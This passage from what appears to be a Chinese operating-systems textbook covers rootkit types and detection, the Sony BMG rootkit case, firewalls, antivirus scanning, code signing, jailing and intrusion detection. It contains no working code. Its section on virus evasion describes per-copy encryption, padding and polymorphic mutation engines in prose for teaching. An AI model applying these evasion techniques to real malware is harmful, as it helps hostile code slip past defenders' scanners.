2)管理程序rootkit。这是一种尤其卑鄙的rootkit，它可以在一个由自己控制的虚拟机中运行整个操作系统和所有应用程序。第一个概念证明“蓝药丸”（blue pill，取自电影《黑客帝国》）在2006年被波兰黑客Joanna Rutkowska提出。这种rootkit通常更改引导顺序以便它能在主机启动时在裸机下执行管理程序，这个管理程序会在一个虚拟机中启动操作系统和所有应用程序。与前一种方法类似，这种方法的优点在于没有任何东西隐藏在操作系统、库或者程序中，因此检查这些地方的rootkit检测程序就显得不足。
3)内核rootkit。目前最常见的rootkit感染操作系统并作为驱动程序或可引导内核模块隐藏于其中。这种rootkit可以轻松地将一个大而复杂且频繁变化的驱动程序替换为一个新的驱动程序，这个新的驱动程序既包含原驱动程序又包含rootkit。
4)库rootkit。另一个rootkit可以隐藏的地方是系统库，如Linux中的libc。这种位置给恶意软件提供了机会去检查系统调用的参数和返回值，并根据自身隐藏的需要更改这些参数和返回值。
5)应用程序rootkit。另一个隐藏rootkit的地方是在大的应用程序中，尤其是那些在运行时会创建很多新文件的应用程序中（如用户分布图、图像预览等）。这些新文件是隐藏rootkit的好地方，没有人会怀疑其存在。
这五种rootkit可以隐藏的位置由图9-30所示。
2.rootkit检测
当硬件、操作系统、库和应用程序不能被信任时，rootkit很难被检测到。例如，一种查找rootkit的明显方法是列举磁盘上的所有文件，但是读取目录的系统调用、调用系统调用的库函数以及列表程序都有潜在的恶意性，并有可能忽略掉与rootkit相关的文件。然而情况也绝非无可救药。
检测一个引导自己的管理程序并在其控制下的虚拟机中运行操作系统和应用程序的rootkit虽然难以处理但也并非不可能。这要求从性能和功能上仔细检查虚拟机和实际机器的细微差异。Garfinkel等（2007）已经提出了一些这样的差异（如下所述），Carpenter等（2007）也讨论了这个话题。
一类检测方法依赖于一个事实：管理程序自身使用物理资源而失去这些资源可以被检测到。例如，管理程序需要使用一些TLB入口，在这些稀缺资源的使用上与虚拟机产生竞争。rootkit检测程序可以向TLB施加压力，观察其性能并与此前在裸机上测量的性能数据进行比较。
另一类检测方法与计时相关，尤其与虚拟输入输出设备的计时相关。假设在实际机器上读出一些PCI设备寄存器需要100个时钟周期，这个时间很容易重现。在一个虚拟环境下，这个寄存器的值来自于内存，它的读取时间依赖于它到底在CPU一级缓存、二级缓存还是实际RAM中。检测程序可以轻易地强迫其在这些状态之间来回移动并测量实际读取时间的变化。注意我们关注的是读取时间的变化而非实际的读取时间。
另一个可以被探查的部分是执行特权指令的时间，尤其是对那些在实际硬件上只需要几个时钟周期而在被模拟时需要几百或几千个时钟周期的特权指令。例如，如果读出某个被保护的CPU寄存器在实际硬件环境下需要1纳秒，那么10亿次软中断和模拟绝不可能在1秒内完成。当然，管理程序可以欺骗报告模拟时间而不报告所有涉及时间的系统调用的实际时间，检测程序可以通过连接提供精确时间基准的远程主机或网站来绕过时间模拟。因为检测程序只需要测量时间间隔（例如，执行10亿次被保护寄存器的读操作需要多少时间），本地时钟和远程时钟的偏移没有关系。
如果没有管理程序被塞入硬件和操作系统之间，那么rootkit可能被隐藏在操作系统中。很难通过引导计算机来检测其存在，因为操作系统是不可信的。例如，rootkit可能安装大量的文件，这些文件的文件名都由“$$$_”起始，当读取代表用户程序的目录时，不报告这些文件的存在。
在这样的环境下检测rootkit的一个方法是从一个可信的外部介质（如CD-ROM/DVD或USB棒）引导计算机，然后磁盘可以被一个反rootkit程序扫描，这时不用担心rootkit会干扰这个扫描。另一个选择是对操作系统中的每个文件做密码散列，这些散列值可以与一个列表中的散列值进行比较，这个列表在系统安装的时候生成并存储于系统外的一个不可被篡改的位置。如果没有预先建立这些散列值，也可以由安装CD-ROM或DVD即时计算得到，或由被比较文件自身进行计算得到。
库和应用程序中的rootkit更难隐藏，当操作系统从一个外部介质装入并可信时，这些库和应用程序的散列值也可以与已知为正确且存储与CD-ROM上的散列值进行比较。
到目前为止，我们讨论的都是被动rootkit，它们不会干扰检测软件。还存在一些主动rootkit，它们查找并破坏检测软件或至少将检测软件更改为永远报告“NO ROOTKITS FOUND!”（没有发现rootkit），这些rootkit要求更复杂的检测方法。幸运的是，到目前为止在现实环境下主动rootkit还没有出现。
在发现rootkit后应该做什么这个问题上存在两种观点。一种观点认为系统管理员应该像处理癌症的外科医生那样非常小心地切除它。另一种观点认为尝试移除rootkit太过危险，可能还有其他碎片隐藏在其他地方，在这一观点下，惟一的解决办法是回复到上一个已知干净的完整备份。如果没有可用的备份，就要求从原始CD-ROM/DVD进行新的安装。
3.Sony rootKit
在2005年，Sony BMG公司发行了一些包含rootkit的音乐CD。这被Mark Russinovich（Windows管理工具网站www.sysinternals.com的共同创始人之一）发现，那时他正在开发一个rootkit检测工具并惊奇地在自己的系统中找到了一个rootkit。他在自己的blog中写下了这件事，这很快传遍了各大媒体和互联网。一些科技论文与此相关（Arnab和Hutchison,2006;Bishop和Frincke,2006;Felten和Halderman,2006;Halderman和Felten,2006;Levine et al.,2006）。这件事导致的轰动直到好几年以后才逐渐停止。以下我们对此事件做简单的描述。
当用户插入CD到一个Windows系统计算机的驱动器中时，Windows查找一个名为autorun.inf的文件，其中包含了一系列要执行的动作，通常包括打开一些CD上的程序（如安装向导）。正常情况下，音乐CD没有这些文件因为即便它们存在也会被单机CD播放器忽略。显然Sony的某个天才认为他可以聪明地通过放置一个autorun.inf文件在一些CD上来防止音乐盗版。当这些CD插入计算机时，就会立即安静地安装一个12MB大小的rootkit。然后一个许可协议被显示，其中没有提到任何关于软件被安装的信息。在显示许可的同时，Sony的软件检查是否有200种已知的复制软件中的任一种正在运行，如果有的话就命令用户停止这些复制软件。如果用户同意许可协议并关闭了所有的复制软件，音乐将可以播放，否则音乐就不能播放。即使用户拒绝协议，rootkit仍然被安装。
这个rootkit的工作方法如下。它向Windows内核插入一系列文件名由“$sys$”起始的文件。这些文件之一是一个过滤器，这个过滤器截取所有向CD-ROM驱动器的系统调用并禁止除Sony的音乐播放器之外的所有程序读取CD。这一动作使得复制CD到硬盘（这是合法的）变得不可能。另一个过滤器截取所有读取文件、进程和注册表列表的调用，并删除所有由“$sys$”起始的项（即便这些项是由与Sony和音乐都完全无关的程序而来的），目的是为了掩盖rootkit。这一方法对于rootkit设计新手来说非常标准。
在Russinovich发现这一rootkit之前，它已经被广泛地安装，这完全不令人惊讶，因为在超过2000万张CD上包含此rootkit。Dan Kaminsky（2006）研究了其广度并发现全世界超过50万个网络中的计算机已经被感染。
当消息传出时，Sony的第一回应是它有权保护其知识产权。在National Public Radio的一次采访中，Sony BMG的全球数字业务主席Thomas Hesse说：“我认为绝大多数人甚至不知道什么是rootkit，那么他们何必那么在意它？”当这一回应激起了公众怒火时，Sony让步并发行了一个补丁来移除对“$sys$”文件的掩盖，但仍保留rootkit。随着压力的增加，Sony最终在其网站上发布了一个卸载程序，但作为获得卸载程序的条件，用户必须提供一个E-mail地址并同意Sony可以在以后向他们发送宣传材料（这些可以被大多数人过滤掉）。
随着故事的终结，人们发现Sony的卸载程序存在技术缺陷，使得被感染的计算机非常容易遭受互联网上的攻击。人们还发现该rootkit包含了从开源项目而来的代码，这违反了这些开源项目的著作权（这些开源项目的著作权要求对其软件的免费使用也发布源代码）。
除了空前的公众关系灾难之外，Sony也面临着法律危机。德克萨斯州控告Sony违反了其反间谍软件法以及欺诈性贸易惯例法（因为即使许可被拒绝rootkit仍然会被安装）。此后在39个州都提起了公诉。在2006年12月，在Sony同意支付425万美元、同意停止在其未来的CD中放入rootkit并授权每位受害者可以下载一个有限的音乐目录下的三张专辑之后，这些诉讼得以解决。在2007年1月，Sony承认其软件秘密监视用户的收听习惯并将其报告回Sony也违反了美国法律。在与公平贸易委员会（FTC）的协议中，Sony同意支付那些计算机遭到其软件破坏的用户150美元的补偿。
关于Sony的rootkit的故事已经为每一位曾经认为rootkit只是学术上的稀奇事物而与现实世界无关的读者提供了实例。在互联网上搜索“Sony rootkit”会发现大量补充信息。
面对危机四伏的状况，那么还有确保系统安全的可能吗？当然，是有的，下面的小节要介绍一下几种设计和实现系统的方法来提高它们的安全性。一个最重要的概念就是全面防御（defense in depth）。基本地讲，这个概念是指你必须有多层的安全性，以便于当其中的一层被破坏，仍然还有其他层要去防御。想象一下这样的一个房子，有一个高的带钉子的关闭着的铁栅栏，在院子里有运动检测器，前门上有两把做工精良的锁，屋子里还有一个计算机控制的盗窃报警系统。每一个技术自己本身都是有价值的，为了闯入这个房子盗贼需要打败所有的防御。一个安全的计算机系统就应该像这个房子一样，有着多层的安全性。我们将要介绍其中的某些层次。防御不是真的分等级的，而是我们要从一般的外部的东西开始，然后逐渐深入到细节。
能够把任何地方的一台计算机连接到其他一台任何地方的计算机上是一件好坏参半的事情。网络上有很多有价值的资料，但是同时连接到Internet上也使我们的计算机面临着两种危险：来自外部和来自内部。来自外部的危险包括黑客、病毒、间谍软件以及其他的恶意软件。来自内部的危险包括了机密信息泄露，比如信用卡号、密码、纳税申请单和各种各样的公司信息。
因此，我们需要某种机制来保证“好”的留下来并且阻止“坏”的进入。一种方法是使用防火墙（firewall），它是一种中世纪古老的安全措施的现代版本：在你的城堡周围挖一条护城河。这样的设计强制每一个进入或者离开城堡的人都要经过惟一的一座吊桥，I/O警察可以在吊桥上检查每一个经过的人。对于网络，这种方法也是可行的：一个公司可能有很多的任意连接的局域网，但是所有进入或离开公司的网络流都要强制地通过一个电子吊桥——防火墙。
防火墙有两种基本的类型：硬件防火墙和软件防火墙。有局域网需要保护的公司通常选择硬件防火墙；而家庭的个人用户通常会选择软件防火墙。首先，让我们看一看硬件防火墙。一般的硬件防护墙如图9-31所示。在该图中，来自网络提供者的连接（电缆或光纤）会被插到防火墙上，防火墙也连接到局域网上。不经过防火墙的允许任何包都不能进入或者离开局域网。实际的情况下，防护墙通常会和路由器、网络地址转换盒、指令检查系统和其他设备联合起来工作，但是在这里我们只关注于防火墙自身的功能。
防火墙根据一些规则来配置，这些规则描述什么是允许的，什么是不允许的。防护墙的管理者可以修改这些规则，通常修改是通过一个Web界面进行的（大多数防火墙都内置一个小型Web服务器来实现它）。最简单的一种防护墙是无状态防护墙（stateless firewall），只会检查通过的包的头部，然后根据包头部的信息和防火墙的规则作出传送还是丢弃这个包的决定。包头部的信息包括源和目的的IP地址、源和目的的端口、服务的类型和协议。包头部的其他属性也是可以得到的，但是很少会被防火墙的规则涉及。
在图9-31中，我们有3个服务器，每一个都有一个惟一的IP地址，形如207.68.160.x，其中x依次是190、191、192。这三个地址就是那些要发送给这些服务器的包的目的地址。进来的包同时也包含一个16位的端口号（port number），来描述机器上哪一个进程来获得这个包（一个进程能监听一个来自外部网络流量的端口）。一些端口是和一些标准服务联系在一起的。特别地，端口80被Web使用，端口25被E-mail使用，端口21被FTP（文件传输协议）服务使用，但是大多数其他的端口是被用户定义的服务使用的。在这样的条件下，防火墙可能按照如下规则配置：
这些规则只有当包被发送到端口80的时候，才会允许进入地址是207.68.160.190的机器；这个机器的其他端口都是被禁止的并且发送给这些端口的包都会被防火墙自动丢弃。同样，只有发送给端口25和21的包才可以进入其他两个机器。所有其他的网络流都是禁止的。这个规则集使得攻击者除了提供的三个公共的服务以外，很难访问到局域网。
虽然有了防火墙，局域网还是可能会受到攻击。例如，如果Web服务器是Apache并且攻击者找到了一个可以利用的Apache的bug，那么他可以发送一个很长的URL到207.68.160.190的端口80，然后制造一个缓冲区溢出，进而控制由防火墙保护的一台机器，通过这个机器可以发动对局域网内其他机器的攻击。
另一种潜在的攻击是写一个多人游戏，发布这个游戏并且让它得到广泛的接受。这个游戏的软件需要某个端口来和其他的玩家联系，所以游戏设计者会选择一个端口，比如9876，并且告诉玩家来改变防火墙的设置，来允许在这个端口网络流的进出。打开端口的人现在也容易受到这个端口上的攻击。即使这个游戏是合法的，那么它也可能包含一些可以利用的bug。打开越多的端口，被成功攻击的机会就越大。防火墙上的每一个端口都增加了攻击通过的可能。
除了无状态防火墙以外，还有一种跟踪连接以及连接状况的防火墙。这些防火墙能够更好地防止某些类型的攻击，特别是那些和建立连接有关的攻击。另外，一些其他类型的防火墙实现了入侵检测系统（Intrusion Detection System，IDS），利用IDS防火墙不仅可以检测包的头部还可以用检测包的内容来查找可疑的内容。
软件防火墙，有时也叫做个人防火墙，和硬件防火墙具有同样的功能，只不过是通过软件方式实现的。它们是附加在操作系统内核的网络代码上的过滤器，是和硬件防火墙工作机制一样的过滤数据包。
正如上文所提到的，防火墙会尽量地阻止入侵者进入电脑，但是在很多情况下防火墙会失败。在这种情况下，下一道防线是由反恶意软件的程序（antimalware program）组成的。尽管这种反恶意软件的程序同样可以对抗蠕虫和间谍软件，但是它们通常称做反病毒程序（antivirus program）。病毒尽量地隐藏自己，而用户则是努力地发现它们，这就像是一个猫捉老鼠的游戏。在这方面，病毒很像rootkit，不同的地方是病毒的制造者更强调的是病毒的传播速度而不是像rookit一样注重于捉迷藏。现在，让我们来看看反病毒软件所使用的技术，以及病毒的制造者Virgil是怎么应对这些技术的。
1.病毒扫描器
显然，一般用户没有去查找竭尽全力藏身的大多数病毒，所以市场上出现了反病毒软件。下面我们将讨论一下反病毒软件的工作原理。反病毒软件公司拥有一流的实验室，在那里许多专家长时间地跟踪并研究不断涌现出的新病毒。第一步是让病毒感染不执行任何操作的程序，这类程序叫做诱饵文件，然后获取病毒的完整内容。下一步是列出病毒的完全代码表把它输入已知病毒的数据库。公司之间为其数据库的容量而竞争。发现新的病毒就放到数据库中与体育竞赛是完全不同的。
一旦反病毒软件安装在用户的计算机里，第一件事就是在硬盘里扫描所有可执行文件，看看是否能发现病毒库里已知的病毒。大多数反病毒公司都建有网站，从那里客户可以下载新发现病毒的特征码到自己的病毒库里。如果用户有10 000个文件，而病毒库里有10 000种病毒，当然需要一些高效的代码使得程序得以更快地运行。
由于有些已知病毒总是在不断发生细微变化，所以人们需要一种模糊查询软件，这样即便3个字节的改变也不会让病毒逃避检测。但是，模糊查询不仅比正常查询慢，而且容易导致错误报警（误测）。7年前在巴基斯坦，有些合法的文件恰巧包含了与病毒代码极为相像的字符，结果导致了病毒报警。用户这时往往会看到下面的信息：
WARNING!File xyz.exe may contain the lahore-9x virus.Delete?
数据库里的病毒越多，扫描标准越宽松，误报警的可能性就越大。如果出现了太多的误报警，用户会因为厌烦而放弃使用。但是如果病毒扫描器坚持严格匹配病毒码，它就会错过许多变形病毒。解决办法是要达到一种微妙的平衡，完美的扫描软件应该识别病毒的核心代码，这些核心代码不会轻易改变，从而能够作为病毒的特征签名来查找。
由于磁盘里的文件上周被宣布无病毒感染后并不意味着现在仍未被感染，所以人们需要经常使用病毒扫描。因为扫描速度很慢，所以要保持效率就应该仅对上次扫描后被改动的文件进行检查。但是，聪明的病毒会把感染过的文件日期重置为初始日期以逃避检验。于是，反病毒程序修改校验文件所在目录的日期。但是病毒接着又把目录的日期也改掉。这就像我们上面所提到的猫捉老鼠游戏一样。
反病毒软件的另一种方法是检测文件，记录和存放所有文件的长度。如果一个文件自上周以来突然增加了许多，就有可能被感染，如图9-32a所示。但是，聪明的病毒可通过程序压缩原有文件并将其填充到原有长度来逃避检查。要使这种方法奏效，病毒必须还要包含压缩和解压缩过程，如图9-32c所示。
病毒还有一种逃避检测办法，那就是让自己在磁盘里呈现出的特征与病毒数据库里的特性不尽相同。要达到这一目标，方法之一是每感染一个文件就用不同的密钥将自身加密。在复制新的病毒体之前，病毒先随机产生一个32位的加密密钥，如将当前时间与内存里诸如72 008和319 992等数字进行异或。然后将病毒代码与这一密钥逐字节地异或，加密后的结果值储存在被感染文件中，如图9-32d所示。密钥也同时存放在文件中。从保密性角度来说，把密钥放进文件是不明智的。这样做的目的无非是为了对付病毒扫描，但却不能防止专家在反病毒实验室里逆向破解出病毒代码。当然，病毒在运行时必须首先对自己解密，所以在文件里也同时需要解密过程。
上述策略实际上并不完善，因为压缩、解压缩、加密和解密等过程在复制每个病毒体时都是一样的，反病毒软件可以利用这一特征来查杀病毒。把压缩、解压缩和加密过程隐藏起来较为容易：只要对它们加密并存放在病毒体里，如图9-32e所示。但是，解密过程不能被加密，它必须运行在硬件上以便将病毒体的其余部分解密，所以必须用明文格式存放。反病毒软件当然知道这些，所以它们专门搜索解密过程。
然而，Virgil喜欢笑到最后，所以他采用了下面的步骤。假设解密过程需要进行如下运算：
X=(A+B+C-4)
在普通的双地址计算机上可以运用汇编语言编写该运算，如图9-33a所示。第一个地址是源地址；第二个地址是目标地址，所以MOV A，R1是把变量A放入寄存器R1中。图9-33b的代码也是同样的意思，不同之处仅仅在于代码中插入了NOP（无操作）指令而降低了效率。
现在整个编码工作还未完成。为了伪装解密代码，可以用许多方法来替代NOP。例如，把0加入寄存器、自身异或、左移0位、跳转到下一个指令等，所有的都不做任何操作。所以，图9-33c在功能上与图9-33a是相同的。当病毒复制自身时，往往采用图9-33c的代码而不是图9-33a，这样在日后运行时还能工作。这种每次复制时都发生变异的病毒叫做多形态病毒（polymorphic virus）。
现在假设在这段代码里不再需要R5寄存器。也就是说，图9-33d与图9-33a的功能一致。最后，在许多情况下，可以交换指令而不会改变程序功能，我们用图9-33e作为另一种与图9-33a在逻辑上保持一致的代码段。这种能够交换机器码指令而不影响程序功能的代码叫做变异引擎（mutation engine）。较复杂的病毒在复制病毒体时，可以通过变异引擎产生不同的解密代码。变异的手段包括插入一些没用而且没有危害的代码，改变代码的顺序，交换寄存器，把某条指令用它的等价指令替换。变异引擎本身与病毒体一起也可以通过加密的方法隐藏起来。
要求较差的反病毒软件意识到图9-33a至图9-33e具有相同的代码功能是相当困难的，特别是当变异引擎有能力“狡兔三窟”时。反病毒软件可以分析病毒代码，了解病毒原理，甚至可以试图模拟代码操作，但我们必须记住有成千上万的病毒和成千上万的文件需要分析，所以每次测试不能花费太多的时间，否则运行起来会惊人地慢。
另外，储存在变量Y里的值是为了让人们难以发现与R5有关的代码是死码的事实，死码不会做任何事情。如果其他代码段对Y进行了读写，代码就会看上去十分合法。一个写得十分好的变异引擎代码会产生极强的变种，会给反病毒软件的作者带来噩梦般的麻烦。惟一让人安慰的是这样的引擎很难编写，所以Virgil的朋友都使用他的代码，结果在病毒界里并没有种类繁多的变异引擎。
到目前为止，我们讨论的是如何识别被感染的可执行文件里的病毒。而且，反病毒扫描器必须检查MBR、引导扇区、坏扇区列表、闪速ROM、CMOS等区域。但是如果有内存驻留病毒在运行会怎样呢？该内存驻留病毒不会被发现。更糟的是假设运行的病毒正在控制所有的系统调用，它就能轻易地探测到反病毒程序正在读引导扇区（用以查找病毒）。为了阻止反病毒程序，病毒进行系统调用，相反它把真正的引导区从坏扇区列表的藏身之地返回。它也可以作记录，在被扫描器检查以后会再次感染所有的文件。
为了防止被病毒欺骗，反病毒程序也可以会跳过操作系统直接去读物理磁盘。不过这样做需要具有用于IDE、SCSI和其他种类硬盘的内置设备驱动程序，这样会降低反病毒程序的可移植性，遇到不通用的硬盘就会一筹莫展。而且，跳过操作系统来读取引导扇区是可以的，但是跳过操作系统来读取所有的可执行文件却是不可能的，所以仍然存在病毒产生出与可执行文件相关的欺骗性数据的危险。
2.完整性检查程序
另一种完全不同的病毒检测方法是实施完整性检查（integrity checking）。采用这种方法的反病毒程序首先扫描硬盘上的病毒，一旦确信硬盘是干净的，它就开始为每个可执行文件计算一个校验和。计算校验和的算法应该是很简单的，就像把程序段中的所有字作为32位或者64位整数加起来求和一样简单，但是这种算法也要像加密的散列算法一样，是不可能逆向求解的。然后，要把一个目录中的所有相关文件的校验和写到一个文件中去。下一次运行的时候，程序重新计算校验值，看是否与校验和文件里的值相匹配。这样被感染的文件会立刻被查出。
问题在于Virgil并不愿意让病毒被查出，他可以写一段病毒代码把校验和文件移走。更糟的是，他可以计算已感染病毒的文件校验值，用这一值替代校验和文件里的正常值。为了保护校验值不被更改，反病毒程序可以尝试把该文件藏起来，但对长时间研究反病毒程序的Virgil来说，这种方法也难以奏效。比较好的方法是对文件加密以便使得其上的破坏容易被发现。理想状态是加密采用了智能卡技术，加密密钥被放在芯片里使得程序无法读到。
3.行为检查程序
第三种反病毒程序使用的方法是实施行为检查（behavioral checking）。通过这种方法，反病毒程序在系统运行时驻留在内存里，并自己捕捉所有的系统调用。这一方法能够监视所有的系统活动，并试图捕捉任何可能被怀疑的行为。例如，通常没有程序会覆盖引导扇区，所以有这种企图的程序几乎可以肯定是病毒。同理，改变闪速ROM的内容也值得怀疑。
但是也有些情况比较难以判断。例如，覆盖可执行文件是一个特殊的操作，除非是编译器。如果反病毒程序检测到了这样一个写的动作并发出了警告，它希望用户能根据当时情形决定是否要覆盖可执行文件。同样，当Word用一个全是宏的新文件重写.doc文件时不一定是病毒的杰作。在Windows中程序可以从可执行文件里分离出来，并使用特殊的系统调用驻留内存。当然，这也可能是合法的，但是给出警告还是是十分有用的。
病毒并不会被动地等着反病毒程序杀死自己，它们也会反击。一场特别有趣的战斗会发生在内存驻留病毒和内存驻留反病毒程序之间。多年以前，有一个叫做Core Wars的游戏，在游戏里两个程序员各自放置程序到空余的地址空间里。程序依次抢夺内存，目的是把对手的程序清理出去来扩大自己的地盘。病毒与反病毒程序之间的战斗就有点像这个游戏，而战场转换到了那些并不希望战斗发生的受害者的机器里。更糟的是，病毒有一个优势，它可以去买反病毒软件来了解对手。当然，一旦病毒出现，反病毒小组也会修改软件，从而逼迫Virgil不得不再买新的版本。
4.病毒避免
每一个好的故事都需要理念。这里的理念是：
与其遗憾不如尽量安全。
避免病毒比起在计算机感染后去试图追踪它们要容易得多。下面是一些个人用户的使用指南，这也是整个产业界为减轻病毒问题所做的努力。
用户该怎样做来避免病毒感染呢？第一，选择能提供高度安全保障的操作系统，这样的系统应该拥有强大的核心-用户态边界，分离提供每个用户和系统管理员的登录密码。在这些条件下，溜进来的病毒无法感染系统代码。
第二，仅安装从可靠的供应商处购买的最小配置的软件。有时，即使这样也不能保证有些软件公司雇员会在商业软件产品里放置病毒，但这样做会有较大的帮助。从Web站点和公告板下载软件是十分冒险的行为。
第三，购买性能良好的反病毒软件并按指定要求使用。确保能够经常从厂商站点下载更新版本。
第四，不要点击电子邮件里的附件，告诉他人不要发送附件给自己。使用简明ASCII文本的邮件比较安全，而附件在打开时可能会启动病毒程序。
第五，定期将重要文件备份到外部存储介质，如软磁盘、CD-R或磁带等。在一系列的备份介质中应该保存不同的版本。这样，当发现病毒时就有机会还原被感染前的文件。例如，假设还原昨天已被感染的备份版本不成功的话，还原上一周的版本也许会有用。
最后一点，抵抗住诱惑，不要从一个不了解的地方下载并运行那些吸引人的新免费软件。或许这些软件免费的原因是：它的制造者想让你的机器加入他的僵尸机器的大军中来。然而，如果你有虚拟机软件的话，在虚拟机中运行这些不了解的软件是安全的。
整个业界应该重视病毒并改变一些危险的做法。第一，制造简单的操作系统。铃声和口哨声越多，安全漏洞也越多，这就是现实。
第二，不要使用动态文本。从安全角度来说，动态文本是可怕的。浏览别人提供的文档时最好不要运行别人提供的程序。例如，JPEG文件就不包含程序，所以也就不会含有病毒。所有的文档都应该以这样的方式工作。
第三，应该采取措施将重要的磁盘柱面有选择性地写保护，防止病毒感染程序。这种方法必须在控制器内部放置位图说明，位图里含有受保护磁盘柱面的分布图。只有当用户拨动了计算机面板上的机械拨动开关后，位图才能够被改动。
第四，使用闪存是个好主意，但只有用户拨动了外部开关后才能被改动，如当用户有意识地安装BIOS升级程序的时候。当然，所有这些措施在没有遭受病毒的强烈攻击时，是不会引起重视的。例如，有些病毒会攻击金融领域，把所有银行账户的金额重置为0。当然，那时候再采取措施就太晚了。
一种完全不同的防止恶意软件的方法（全面防御），是我们只运行那些来自可靠的软件厂商的没有被修改过的软件。马上我们会问，用户如何知道软件的确是来自它自己所声称的厂商，并且用户又如何知道软件从它被生产之后没有被修改过呢。当我们从一个名声未知的在线商店中下载软件或者从站点下载ActiveX控件的时候，这个问题就显得格外重要。例如，如果ActiveX控件来自一个著名的软件公司，那么它几乎不可能包含一个木马程序，但是，用户如何确信这一点呢？
一种被广泛应用的解决办法是数字签名，这部分内容在9.2.4节中已经讲解过。如果用户只运行那些由可信的地方制造并签名的程序、插件、驱动、ActiveX控件以及其他软件，那么陷入麻烦的机会就会少得多。但是这样做导致的后果就是，那些来自于Snarky Software的新的、免费的、好玩的、花哨的游戏可能非常不错但是不会通过数字签名的检查，因为你不知道谁制造了他们。
代码签名法是基于公钥密码体系。如某个软件厂商产生了一对密钥（公钥和私钥），将公钥公开，私钥妥善保存。为了完成对一个软件签名，供应商首先将代码进行散列函数运算，得到128位（采用MD5算法）、160位（采用SHA-1算法）或256位（采用SHA-256算法）的值。然后通过私钥加密取得散列值的数字签名（实际上，在使用时如图9-3所示进行了解密）。这个数字签名则始终伴随着这个软件。
当用户得到这个软件后，计算出散列函数并保存结果，然后将附带的数字签名用公钥进行解密。接着，核对解密后的散列函数值同自己运算出的值是否相等。如果相等，这个软件就被接受，否则就作为伪造版本被拒绝。这里所用到的数学方法使得任何想要篡改软件的人十分难以得手，因为这个散列函数要同从真正的数字签名中解密出来的散列函数匹配。在没有私钥的情况下通过产生匹配的假数字签名是十分困难的。签名和校验的过程如图9-34所示。
网页能够包含代码，比如AcitiveX控件，以及各种脚本语言写出的代码。通常这些代码会被签名，而浏览器会自动地检查这些签名。当然，为了验证签名，浏览器需要软件厂商的公钥，它们通常和代码在一起。和公钥一起的还有被某个CA签名过的证书。如果浏览器已经保存了这个CA的公钥的话，它可以自己验证这个证书。如果这个证书是被浏览器所不知道的某个CA签名的话，那么它会弹出一个对话框询问是否接受这个证书。
一个古老的俄国谚语说：“相信但需要验证。”很明显地，古代的俄国人在头脑中就已经清楚地有了软件的概念。即使一个软件已经被签名了，一个好的态度是去核实它是否都能正常运行。做这件事情的一种技术是囚禁（jailing），如图9-35所示。
如图9-35，一个新被接受的程序会作为一个标有“囚犯”的标签的进程来运行。这个“狱卒”是一个可信任的（系统的）进程，可以监管囚犯进程的行为。当一个被监禁的进程作出一个系统调用的时候，系统调用不会被执行，而是把控制移交给狱卒进程（通过一个内核陷阱）并把系统调用号和参数传递给它。这个狱卒进程会判断是否这个系统调用被允许。例如，如果被监禁的进程试图和一个狱卒进程不知道的远程主机建立一个网络连接，这个系统调用会被拒绝然后该囚犯进程被结束。如果这个系统调用是可以接受的，那么狱卒进程会通知内核，由内核来执行该系统调用。通过使用这种方法，不正确的行为会在它引起麻烦之前被捕捉到。
囚禁有很多的实现方法。有一种方法可以在不需要修改内核的情况下，在几乎任何一个UNIX系统上实现，这种方法是Van't Noordende等人在2007年提出的。在nutshell中，这个方法使用普通的UNIX调试功能，让狱卒进程作为调试者而囚犯进程作为被调试者。这种情况下，调试者可以指示内核把被调试者封装起来，然后把被调试者的所有系统调用都传递给自己来监视。
还有一种方法可以保护我们的机器，那就是安装一个IDS（Intrusion Detection System）。IDS有两种基本的类型，一种关注于监测进入电脑的网络包，另一种关注寻找CPU上的异常情况。之前在防火墙的部分我们简要地提到了网络IDS；现在我们对于基于主机的IDS进行一些讲解。出于篇幅限制，我们不能够审视全部的种类繁多的基于主机的IDS。相反地，我们选择一种类型来简单地了解它们是如何工作的。这种类型是基于静态模型的入侵检测（wagner和Dean，2001）。它可以用上面提到的囚禁技术来实现，同时也有其他的实现方法。
在图9-36a中我们看到了这样一个小程序，它打开一个叫data的文件，然后每次一个字符地读入，直到遇到了一个0字节，这时打印出文件开始部分的非0字节的个数然后程序退出。在图9-36b中，我们看到了这个程序的系统调用图（这里打印被叫做write）。
这个图告诉了我们什么呢？首先，在任何情况下，这个程序的第一个系统调用一定是open。第二个系统调用是read或者write，这要根据执行if语句的那个分支来决定。如果第二个系统调用是write，那么就意味着文件无法打开，然后下一个系统调用必须是exit。如果第二个系统调用是read，那么可能还有额外任意多次的read调用，并且最后调用close、write和exit。在没有入侵的情况下，其他序列是不可能的。如果这个程序被囚禁，那么狱卒程序可以看到所有的系统调用并很容易地验证某个序列是不是有效的。
现在假设某人发现了这个程序的一个bug，然后成功地引起了缓冲区溢出，插入并执行了恶意代码。当恶意代码运行的时候，极大的可能是会执行一个不同的系统调用序列。例如，恶意代码可能尝试打开某个它想要复制的文件或者可能和家里的电话建立网络连接。当第一次出现系统调用不符合原来的模式时，狱卒十分肯定地认定出现了攻击并会采取行动，比如结束这个进程并向系统管理员报警。这样，入侵检测系统就能够在攻击发生的时候检查到它们。静态系统调用分析只是很多IDS工作方法中的一种。
当使用这种基于静态模型的入侵检测的时候，狱卒必须知道这个模型（比如系统调用图）。最直接的方式就是让编译器产生它并让程序的作者签名同时附上它的证书。这样的话，任何预先修改可执行程序的企图都会被在程序运行的时候检测到，因为实际的行为和被签过名的预期行为不一致。
很不幸的是，一个聪明的攻击者可能发动一种叫做模仿攻击（mimicry attack）的攻击，在这种攻击中插入的代码会有和该程序同样的系统调用序列（Wagner和Soto，2002），所以我们需要更复杂的模型，不能仅仅依靠跟踪系统调用。然而，作为深层防御的一部分，IDS还是扮演着重要的角色。
无论如何，基于模型的IDS不仅仅是以一种。许多IDS利用了一个叫做蜜罐（honeypot）的概念，这是一个吸引和捕捉攻击者和恶意软件的陷阱。通常蜜罐会是一个孤立的机器，几乎没有防御，表面看起来令人感兴趣并且有些有价值的内容，像一个成熟等待采摘的果实一样。设置蜜罐的人会小心翼翼地监视它上面的任何攻击并尽量去了解攻击的特征。一些IDS会把蜜罐放在虚拟机上防止对下层实际系统的破坏。所以很自然地，恶意软件也会像之前提到的努力地检查自己是否运行在一个虚拟机上。
